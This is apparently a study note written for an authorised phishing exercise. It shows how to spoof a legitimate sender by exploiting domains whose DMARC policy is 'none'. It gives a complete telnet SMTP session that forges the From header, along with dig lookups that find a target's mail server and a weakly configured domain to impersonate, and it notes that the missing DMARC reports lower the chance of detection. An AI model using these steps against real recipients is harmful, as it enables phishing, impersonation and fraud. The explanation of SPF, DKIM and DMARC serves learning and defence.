 # [Starting point](https://github.com/CanIPhish/spf-bypass)

I found the link above when I was asked to do a phishing exercise. 
My question was how to spoof a legitimate domain name to make the exercise as credible as possible. 
We'll start with the end result to understand the methodology and theory behind the vulnerability exploited. 

This will be the starting point for documenting the processes involved in sending/receiving an email. 

# End result 

Using the following commands, I was able to send a malicious email appearing to come from a perfectly legitimate agent:

```bash
telnet <target.mailserver.com> 25
helo <attackerdomain.com>
mail from: <attacker@attackerdomain.com>
rcpt to: <target@target.com>
data
from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
to: target@target.com
subject: Presentation - Email Demo
This is a test.

. # That dot is inform telnet that the data is complete and can be sent.    # It's not part of the e-mail. 
```

Where 'target' is the person being phished and 'spoofed' is the legitimate sender I claim to represent.
For `attackerdomain.com`, we need to own a domain name and a mail server. I will try to provide later a step by step to configure it but that's not the point here. 

# Information gathering 

- <target\@target.com> : target e-mail address. Let's try with `becode_corporate_j@yopmail.com`
- <targer.mailserver.com> : we need to retrieve the [[MX]] record corresponding to the target domain name, using `dig :
     `dig yopmail.com MX 
     `yopmail.com.		86400	IN	MX	1 smtp.yopmail.com
    So we got `smtp.yopmail.com`
-  <Legitimate_Sender\@spoofed.com> : we can't spoofed any domain of our choice. We need to find one which [[authentication process#DMARC|DMARC]] policy is set to `none`.  Again, using dig : 
    `dig _dmarc.tomandco.com TXT `
    `"v=DMARC1 ; p=none ; sp=none"

With this information, along with a mail server and domain name that we control, we are now able to send the phishing email. 

# Explaining the vulnerability

It's all about using authentication measures that depend on the [[DNS]] protocol. 
To summarise the [[structure of an email]], there are two independent parts:
 - [[structure of an email#SMTP envelope|SMTP envelope]] : here we find the fields "MAIL FROM" and "RCPT TO".
 - [[Mstructure of an email#Message header|Message header]] : where we find the "FROM" and "TO" fields. 

The [[authentication process#SPF|SPF]] is responsible for checking legitimate IP addresses to use the domain name used in the [[structure of an email#SMTP envelope|SMTP envelope]].
[[authentication process#DKIM|DKIM]] adds a digital signature to emails so that the recipient's server can verify the sender's domain and ensure that the message hasn't been altered in transit.

[[authentication process#DMARC|DMARC]] is responsible for checking whether the information between the [[structure of an email#SMTP envelope|SMTP envelope]] and the [[structure of an email#Message header|message header]] matches, and what to do if it doesn't. 
To do this, it relies on the initial checks of the [[authentication process#SPF|SPF]] and [[authentication process#DKIM|DKIM]] and verifies that they match what is in the message headers. 
It then determines what to do if they do not match. And that's what we're exploiting here, since the policy chosen by the spoofed domain administrator is `none`. 

In short, we control the sending mail server and the domain name. For the latter, we have published legitimate [[authentication process#SPF|SPF]] and [[authentication process#DKIM|DKIM]] registries. 
As the information in the [[structure of an email#SMTP envelope|SMTP envelope]] is checked by the recipient, there will be no alert, as this is the reality: the attacker's domain is used and checked during authentication. 

It's the [[authentication process#DMARC|DMARC]] that should react, since the envelope and the content do not match. Unfortunately for the target, given the [[authentication process#DMARC|DMARC]] policy (`none`) chosen by the administrator of the spoofed domain, the email will end up in their normal inbox. 
An additional subtlety in the case of the [[authentication process#DMARC|DMARC]] registry chosen for our example: the absence of administrative emails. This means that no use of the domain name (legitimate or otherwise) is logged. This reduces the risk of being taken to task for fraudulent use of the domain name. 

\* This is in addition to other anti-phishing/spam control mechanisms put in place by the email service provider. 








